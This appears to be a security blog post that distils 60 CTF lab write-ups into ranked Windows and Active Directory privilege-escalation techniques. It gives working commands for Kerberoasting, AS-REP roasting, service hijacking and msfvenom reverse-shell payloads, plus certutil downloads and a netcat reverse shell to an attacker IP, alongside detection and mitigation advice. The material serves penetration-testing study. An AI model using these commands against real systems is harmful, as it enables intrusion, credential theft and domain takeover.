









```mermaid
flowchart LR
    A[AS-REP Roast → svc-alfresco hash] --> B[Crack hash → svc-alfresco password]
    B --> C[WinRM shell as svc-alfresco]
    C --> D[BloodHound: svc-alfresco → Account Operators]
    D --> E[Add user to Exchange Windows Permissions]
    E --> F[WriteDACL → grant DCSync rights]
    F --> G[secretsdump.py → all hashes]
    G --> H[Pass-the-Hash → Domain Admin]
```

## TL;DR

After analyzing **60 Windows machine writeups** across TryHackMe (44), HackTheBox (8), and Proving Grounds (8), six recurring privilege escalation patterns stand out.
Token abuse (SeImpersonatePrivilege → Potato family / PrintSpoofer) and Active Directory credential attacks (Kerberoasting, AS-REP Roasting, GPP passwords) together account for over half of all escalation paths observed.

**Quick reference — most common techniques ranked:**

| Rank | Technique | Category | Frequency |
|------|-----------|----------|-----------|
| 1 | SeImpersonatePrivilege abuse (Potato / PrintSpoofer) | Token Abuse | ★★★★★ |
| 2 | Kerberoasting (GetUserSPNs) | Active Directory | ★★★★★ |
| 3 | Service misconfiguration (binPath / weak ACL) | Local Misconfig | ★★★★ |
| 4 | Writable script + privileged scheduler | Local Misconfig | ★★★★ |
| 5 | GPP / cpassword / stored credentials | Credential Exposure | ★★★ |
| 6 | AlwaysInstallElevated | Local Misconfig | ★★★ |
| 7 | AS-REP Roasting + ACL chain | Active Directory | ★★★ |
| 8 | Kernel / CVE exploit | Unpatched CVE | ★★ |
| 9 | Unquoted service path | Local Misconfig | ★★ |
| 10 | Stored credentials (Unattend.xml / registry) | Credential Exposure | ★★ |

---

## Dataset Overview

### Platform Distribution



### Privilege Escalation Category Breakdown



### Technique Frequency by Category

| Category | Techniques | Est. Occurrence |
|----------|-----------|-----------------|
| Token Abuse | SeImpersonate, Potato family, PrintSpoofer | ~37% |
| Active Directory | Kerberoasting, AS-REP Roasting, GPP, DCSync, ACL abuse | ~30% |
| Local Misconfiguration | Service config, ACL, AlwaysInstallElevated, scheduled tasks | ~25% |
| Credential Exposure | Unattend.xml, registry, browser saved creds | ~20% |
| CVE / Kernel Exploit | PrintDemon, WerTrigger, kernel exploits | ~13% |

> Note: percentages exceed 100% because many machines chain multiple techniques.

---

## Technique Deep Dives

### 1. Token Abuse — SeImpersonatePrivilege

**The single most common Windows privesc primitive in this dataset.**

Any service account running under IIS, SQL Server, WinRM, or similar will have `SeImpersonatePrivilege` by default. This allows an attacker who compromises that service to escalate to **NT AUTHORITY\SYSTEM** via the Potato exploit family or PrintSpoofer.

#### Verification

```powershell
whoami /priv
# Target line:
# SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

#### Tool Selection by OS

| Tool | Supported OS | Notes |
|------|-------------|-------|
| GodPotato | Win 8–11, Server 2012–2022 | Most reliable; recommended first choice |
| SweetPotato | All Windows | Auto-selects best method |
| PrintSpoofer | Win 10 / Server 2019 | Uses Spooler named pipe |
| RoguePotato | Win 10 1809+ / Server 2019+ | Requires attacker port 135 |
| JuicyPotato | Pre-Win 10 1809 | Needs specific CLSID |



**Observed in:**
- [THM - Alfred](/posts/thm-alfred/) — Jenkins → `SeImpersonatePrivilege` → PrintSpoofer64 → SYSTEM
- [Tech - Windows Potato PrivEsc](/posts/tech-windows-potato-privesc/) — comprehensive Potato family reference

---

### 2. Kerberoasting

**The most common Active Directory escalation technique in this dataset.**

Any domain user can request a Kerberos service ticket (TGS) for any account with a ServicePrincipalName (SPN). The TGS is encrypted with the service account's password hash, enabling offline cracking.

#### Attack Flow



#### Commands

```bash
# Enumerate SPNs and retrieve ticket hashes
python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:'password' -outputfile krbhash.txt

# Crack the TGS hash
hashcat -m 13100 -a 0 krbhash.txt /usr/share/wordlists/rockyou.txt
```

**Observed in:**
- [HTB - Active](/posts/htb-active/) — GPP cpassword → `SVC_TGS` → Kerberoast Administrator → `Ticketmaster1968`
- [THM - Corp](/posts/thm-corp/) — `setspn` enumeration → `fela` (Domain Admin) → crack → `rubenF124`

---

### 3. Service Misconfiguration

**The classic local privilege escalation for unmanaged Windows hosts.**

Three variants appear repeatedly:

#### 3a. Weak service binary ACL (binPath replacement)

```cmd
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" <service_name>
sc config <service_name> binPath= "C:\PrivEsc\reverse.exe"
sc stop <service_name> && sc start <service_name>
```

#### 3b. Unquoted service path

A service binary path containing spaces without quotes allows DLL/EXE hijacking at any unquoted segment.

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v "\""
# Place a payload at the hijackable path segment
icacls "C:\Program Files\Vuln App\"
```

#### 3c. Service DLL hijacking

Weak directory permissions allow replacing a DLL loaded by a privileged service.

**Observed in:**
- [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/) — `accesschk` → service binPath replacement → SYSTEM
- [THM - Steel Mountain](/posts/thm-steel-mountain/) — Rejetto HFS CVE → service config abuse

---

### 4. Writable Script + Privileged Scheduler

**High reliability when a SYSTEM-scheduled task runs a user-writable script.**

The key insight: it is not enough that you *can write* to a file; you must confirm the file is executed in a *privileged context* on a regular schedule.

```cmd
# winPEAS output to look for:
# File Permissions "C:\DevTools\CleanUp.ps1": Users [WriteData/CreateFiles]

# Append payload to the script
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

# Wait for the scheduled task to fire, catch reverse shell
rlwrap -cAri nc -lvnp 53
```



**Observed in:**
- [THM - Windows PrivEsc](/posts/thm-windows-privesc/) — `C:\DevTools\CleanUp.ps1` writable → SYSTEM shell via nc

---

### 5. GPP / Stored Credentials

#### 5a. Group Policy Preferences (cpassword)

Old-style Group Policy deploying local accounts stored an AES-encrypted password (`cpassword`) in `Groups.xml` on the SYSVOL share. The AES key was **publicly disclosed by Microsoft**, so any domain user can decrypt it.

```bash
# Retrieve Groups.xml from Replication share
smbclient //$ip/Replication -N
# Navigate to: active.htb\Policies\...\MACHINE\Preferences\Groups\Groups.xml

gpp-decrypt "<cpassword value from Groups.xml>"
```

**Observed in:**
- [HTB - Active](/posts/htb-active/) — `SVC_TGS:GPPstillStandingStrong2k18` from `Groups.xml`

#### 5b. Unattend.xml / Sysprep credentials

Windows deployment files sometimes contain base64-encoded administrator credentials.

```powershell
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
# Look for <Password><Value> → base64 decode
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<value>"))
```

**Observed in:**
- [THM - Corp](/posts/thm-corp/) — `Unattended.xml` → Administrator base64 password → evil-winrm as Administrator

---

### 6. AlwaysInstallElevated

When both `HKCU` and `HKLM` registry keys for `AlwaysInstallElevated` are set to `1`, any user can install an MSI with SYSTEM privileges.

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
# Generate malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f msi -o privesc.msi
```

```cmd
msiexec /quiet /qn /i C:\PrivEsc\privesc.msi
```

**Observed in:**
- [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/) — both registry keys enabled → MSI payload → SYSTEM

---

### 7. AS-REP Roasting + ACL Chain (Active Directory)

Accounts with `Do not require Kerberos preauthentication` set can have their AS-REP hashes captured without authentication. Combined with BloodHound ACL analysis, this can lead to full domain compromise.

```bash
# Enumerate AS-REP-roastable accounts
python3 GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $ip -format hashcat

# Crack hash (mode 18200)
hashcat -m 18200 asrep.txt rockyou.txt

# BloodHound to map ACL path to Domain Admin
bloodhound-python -d htb.local -u svc-alfresco -p <password> -c All -ns $ip
```



**Observed in:**
- [HTB - Forest](/posts/htb-forest/) — enum4linux user list → AS-REP roasting `svc-alfresco` → BloodHound ACL chain → DCSync → Domain Admin

---

### 8. CVE / Kernel Exploits

When nothing else works, known kernel vulnerabilities or specific CVEs provide a reliable path.

| CVE | Technique | Target |
|-----|-----------|--------|
| CVE-2020-1337 | WerTrigger — DLL injection via Windows Error Reporting | Windows 10 / Server 2016+ |
| MS16-032 | Secondary Logon Handle PrivEsc | Win 7–10, Server 2008–2012 |
| MS15-051 | Win32k.sys — kernel privilege escalation | Win 7–8.1, Server 2008–2012 |
| CVE-2018-8120 | Win32k NULL pointer dereference | Windows 7 / Server 2008 R2 |

```bash
# WerTrigger (CVE-2020-1337) workflow — PG Craft2
# 1. Generate malicious DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o phoneinfo.dll

# 2. Write DLL to System32 via MySQL LOAD_FILE (requires FILE privilege + chisel tunnel)
mysql -u root -h 127.0.0.1 -P 3306
> SELECT LOAD_FILE('C:\\Users\\Public\\phoneinfo.dll') INTO DUMPFILE "C:\\Windows\\System32\\phoneinfo.dll";

# 3. Trigger WER to load the DLL
certutil -urlcache -f http://$KALI/WerTrigger.exe WerTrigger.exe
.\WerTrigger.exe
```

**Observed in:**
- [PG - Craft2](/posts/pg-craft2/) — Bad-ODF NTLM capture → hashcat → SMB web shell → chisel tunnel → CVE-2020-1337 → SYSTEM
- [THM - Retro](/posts/thm-retro/) — WordPress credential reuse → RDP → kernel exploit (windows-kernel-exploits) → SYSTEM

---

## Enumeration Checklist

Before attempting any specific technique, run a structured enumeration pass. **winPEAS** or a manual checklist covers the major categories.

```powershell
# ── Basic context ──
whoami /all                         # Token privileges + group memberships
systeminfo                          # OS version, hotfixes
wmic qfe get Caption,HotFixID       # Installed patches

# ── Service / binary abuse ──
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" *
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

# ── Registry ──
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"

# ── Credential hunting ──
cmdkey /list
findstr /si password *.txt *.xml *.ini *.config
Get-Content C:\Windows\Panther\Unattend\Unattended.xml

# ── Scheduled tasks ──
schtasks /query /fo LIST /v | findstr /i "task\|run as\|status"

# ── Automated ──
.\winPEASx64.exe
```

---

## Attack Path Patterns

### Pattern A — Web Service → Token Abuse → SYSTEM


*Representative: THM Alfred, THM HackPark, THM Steel Mountain*

### Pattern B — Domain User → Kerberoasting → Domain Admin


*Representative: HTB Active, THM Corp*

### Pattern C — Anonymous SMB → Credential Exposure → Admin


*Representative: HTB Active (GPP), THM Corp (Unattend.xml)*

### Pattern D — AS-REP Roast → BloodHound → DCSync


*Representative: HTB Forest*

---

## Tooling Reference

| Tool | Purpose | Key Usage |
|------|---------|-----------|
| **winPEAS** | Local enumeration | `.\winPEASx64.exe` |
| **GodPotato** | SeImpersonate → SYSTEM | `.\GodPotato.exe -cmd "nc.exe $IP 4444 -e cmd"` |
| **PrintSpoofer** | SeImpersonate → SYSTEM | `.\PrintSpoofer64.exe -i -c cmd` |
| **accesschk.exe** | Service/file ACL checks | `accesschk.exe /accepteula -uwcqv "Users" *` |
| **GetUserSPNs.py** | Kerberoasting | `python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:pass` |
| **GetNPUsers.py** | AS-REP Roasting | `python3 GetNPUsers.py DOMAIN/ -no-pass -usersfile users.txt` |
| **BloodHound** | AD ACL path mapping | `bloodhound-python -d DOMAIN -u user -p pass -c All` |
| **evil-winrm** | WinRM shell | `evil-winrm -i $ip -u user -p pass` |
| **hashcat** | Offline hash cracking | `-m 13100` (Kerberoast), `-m 18200` (AS-REP), `-m 5600` (NetNTLMv2) |
| **responder** | NTLM capture | `sudo responder -I tun0 -v` |
| **gpp-decrypt** | GPP cpassword decrypt | `gpp-decrypt "<cpassword>"` |
| **msfvenom** | Payload generation | `-f msi`, `-f dll`, `-f exe` |

---

## Detection & Blue Team Indicators

### Windows Event IDs to Monitor

| Event ID | Description | Technique |
|----------|-------------|-----------|
| 4648 | Explicit credential logon | Token abuse, lateral movement |
| 4672 | Special privileges at logon | SeImpersonate abuse |
| 4688 | New process created | Watch for cmd.exe spawned by service accounts |
| 4769 | Kerberos service ticket requested | Kerberoasting (RC4 downgrade = `0x17`) |
| 4768 | Kerberos AS request | AS-REP Roasting (no preauth) |
| 7045 | New service installed | Service creation for persistence/privesc |

### Mitigations

```powershell
# 1. Remove unnecessary SeImpersonatePrivilege
#    Use gMSA or Virtual Service Accounts instead of domain/local accounts for services

# 2. Require Kerberos preauthentication on all accounts
#    (removes AS-REP Roasting attack surface)
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false

# 3. Use strong, unique passwords for service accounts (25+ chars)
#    Rotate regularly, monitor TGS requests for RC4 downgrade

# 4. Audit writable paths in scheduled task / service configurations
icacls "C:\path\to\script.ps1"

# 5. Disable AlwaysInstallElevated
reg add HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
reg add HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
```

---

## Writeup Reference Index

| Writeup | Platform | Primary PrivEsc Technique | Link |
|---------|----------|--------------------------|------|
| Windows PrivEsc | TryHackMe | Writable script + scheduled task → SYSTEM | [→](/posts/thm-windows-privesc/) |
| Windows PrivEsc Arena | TryHackMe | Service misconfig, AlwaysInstallElevated, unquoted path | [→](/posts/thm-windows-privesc-arena/) |
| Alfred | TryHackMe | Jenkins weak cred → SeImpersonate → PrintSpoofer | [→](/posts/thm-alfred/) |
| Corp | TryHackMe | Kerberoasting → Unattend.xml stored creds | [→](/posts/thm-corp/) |
| Retro | TryHackMe | WordPress cred reuse → RDP → kernel exploit | [→](/posts/thm-retro/) |
| Steel Mountain | TryHackMe | Rejetto HFS CVE → service misconfig | [→](/posts/thm-steel-mountain/) |
| Active | HackTheBox | SMB null → GPP cpassword → Kerberoasting → Domain Admin | [→](/posts/htb-active/) |
| Forest | HackTheBox | enum4linux → AS-REP Roast → BloodHound → DCSync | [→](/posts/htb-forest/) |
| Craft2 | Proving Grounds | Bad-ODF NTLM capture → CVE-2020-1337 → SYSTEM | [→](/posts/pg-craft2/) |
| Potato PrivEsc Guide | TechBlog | Full Potato family reference (GodPotato → Hot Potato) | [→](/posts/tech-windows-potato-privesc/) |

---

## Key Takeaways

1. **Always check `whoami /priv` first.** SeImpersonatePrivilege is the single most reliable path to SYSTEM on any Windows host running web/database services.

2. **In AD environments, enumerate SPNs before anything else.** If a service account has an SPN and a weak password, Kerberoasting gives you credentials that may be reused across the domain.

3. **Anonymous SMB and SYSVOL access are high-value.** Groups.xml files containing GPP cpasswords and deployment files like Unattend.xml represent credential exposure that persists for years.

4. **winPEAS + BloodHound is the standard toolkit.** winPEAS covers local misconfiguration; BloodHound maps the AD attack surface. Running both immediately after initial access is the most efficient approach.

5. **Scheduled tasks and services must be verified in context.** A writable file is worthless unless it is executed by a privileged account. Always confirm the execution context and trigger frequency.

---

## References

- [TryHackMe - Windows PrivEsc](https://tryhackme.com/room/windows10privesc)
- [TryHackMe - Windows PrivEsc Arena](https://tryhackme.com/room/windowsprivesc20)
- [Windows Potato PrivEsc (this blog)](/posts/tech-windows-potato-privesc/)
- [Potatoes Windows Privesc — Jorge Lajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- [PayloadsAllTheThings — Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Impacket](https://github.com/fortra/impacket)
